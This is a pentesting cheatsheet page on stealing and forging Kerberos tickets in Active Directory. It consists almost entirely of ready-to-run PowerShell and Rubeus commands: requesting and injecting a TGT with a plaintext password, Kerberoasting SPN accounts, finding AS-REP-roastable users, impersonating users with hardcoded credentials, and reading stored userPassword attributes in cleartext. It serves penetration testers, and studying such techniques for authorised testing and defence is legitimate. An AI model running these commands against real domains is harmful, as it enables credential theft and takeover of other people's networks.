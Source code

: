 ```yaml
---
layout: post
title: TA0006 Credentials Access - Steal or Forge Kerberos Tickets
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-09-02
permalink: /:categories/:title/
---
```


<!-- vscode-markdown-toc -->
* [PRE-REQUISITES](#PRE-REQUISITES)
	* [WHICH OS ? WHAT CREDS ?](#WHICHOSWHATCREDS)
	* [Rubeus Compilation](#RubeusCompilation)
* [KERBEROS ASKTGT](#KERBEROSASKTGT)
* [ENUM: KRB DOMAIN POLICIES](#ENUM:KRBDOMAINPOLICIES)
* [ENUM: TARGETS](#ENUM:TARGETS)
	* [Kerberoasting](#Kerberoasting)
	* [AS-REPoasting](#AS-REPoasting)
	* [User Accounts Status](#UserAccountsStatus)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='PRE-REQUISITES'></a>PRE-REQUISITES

### <a name='WHICHOSWHATCREDS'></a>WHICH OS ? WHAT CREDS ?

![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

### <a name='RubeusCompilation'></a>Rubeus Compilation 
```powershell

```

## <a name='KERBEROSASKTGT'></a>KERBEROS ASKTGT 
```powershell
# Path on VM Mandiant Commando
cd C:\Tools\GhostPack\Rubeus\Rubeus\bin\Debug
./Rubeus.exe asktgt /user:$zlat_user /password:Password01 /domain:$zdom /dc:$zdom_dc_fqdn /ptt
```

## <a name='ENUM:KRBDOMAINPOLICIES'></a>ENUM: KRB DOMAIN POLICIES
```powershell
Get-NetDomainController

# enumerate the current domain controller policy
$DCPolicy = Get-DomainPolicy -Policy <DC>
$DCPolicy.PrivilegeRights # user privilege rights on the dc...

# enumerate the current domain policy
$DomainPolicy = Get-DomainPolicy -Policy Domain
$DomainPolicy.KerberosPolicy # useful for golden tickets
$DomainPolicy.SystemAccess # password age/etc.

# get the domain policy settings for the passwords: history, complexicity, lockout, clear-text
(Get-DomainPolicy)."system access"
```

## <a name='ENUM:TARGETS'></a>ENUM: TARGETS

### <a name='Kerberoasting'></a>Kerberoasting
```powershell
# find all users with an SPN set (likely service accounts)
Get-DomainUser -SPN | select name, description, lastlogon, badpwdcount, logoncount, useraccountcontrol, memberof

# find all service accounts in "Domain Admins"
Get-DomainUser -SPN | ?{$_.memberof -match 'Domain Admins'}

# Kerberoast any users in a particular OU with SPNs set
Invoke-Kerberoast -SearchBase "LDAP://OU=secret,DC=<Domain>,DC=local"
```

### <a name='AS-REPoasting'></a>AS-REPoasting
```powershell
# check for users who don't have kerberos preauthentication set
Get-DomainUser -PreauthNotRequired
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
```


### <a name='UserAccountsStatus'></a>User Accounts Status
```powershell
# get all users with passwords changed > 1 year ago, returning sam account names and password last set times
$Date = (Get-Date).AddYears(-1).ToFileTime()
Get-DomainUser -LDAPFilter "(pwdlastset<=$Date)" -Properties samaccountname,pwdlastset,useraccountcontrol

# get the last password set of each user in the current domain
Get-UserProperty -Properties pwdlastset

# all users that require smart card authentication
Get-DomainUser -LDAPFilter "(useraccountcontrol:1.2.840.113556.1.4.803:=262144)"
Get-DomainUser -UACFilter SMARTCARD_REQUIRED

# all users that *don't* require smart card authentication, only returning sam account names
Get-DomainUser -LDAPFilter "(!useraccountcontrol:1.2.840.113556.1.4.803:=262144)" -Properties samaccountname
Get-DomainUser -UACFilter NOT_SMARTCARD_REQUIRED -Properties samaccountname

# if running in -sta mode, impersonate another credential a la "runas /netonly"
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
# ... action
Invoke-RevertToSelf

# check if any user passwords are set
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl
```

